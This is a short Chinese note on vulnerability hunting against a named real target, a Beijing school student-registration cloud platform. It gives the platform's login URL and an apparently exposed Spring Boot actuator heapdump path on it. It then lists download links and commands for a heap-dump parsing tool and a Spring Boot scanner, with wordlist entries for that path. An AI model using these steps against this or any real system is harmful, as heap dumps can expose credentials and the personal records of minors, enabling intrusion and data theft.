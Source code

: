 # src挖掘

## 北京市中小学学籍管理云平台

### 目标

> 北京市中小学学籍管理云平台

https://hunter.qianxin.com/

https://fofa.info/

### 网址

https://cmis.bjedu.cn/#/login

### 敏感目录

https://cmis.bjedu.cn/api/actuator/heapdump

### 工具

#### heapdump_tool.jar

##### 下载地址

github：https://github.com/wyzxxz/heapdump_tool

下载地址：https://share.feijipan.com/s/dFAuqYQy

```python
java -jar heapdump_tool.jar heapdump
```



#### SpringBoot-Scan.py

##### 下载地址

 geihub：https://github.com/AabyssZG/SpringBoot-Scan

GUI：https://github.com/13exp/SpringBoot-Scan-GUI

```python
git clone https://github.com/AabyssZG/SpringBoot-Scan.git
git clone https://github.com/13exp/SpringBoot-Scan-GUI.git
```

##### 添加字典

```python
api/actuator/heapdump
actuator/heapdump
```
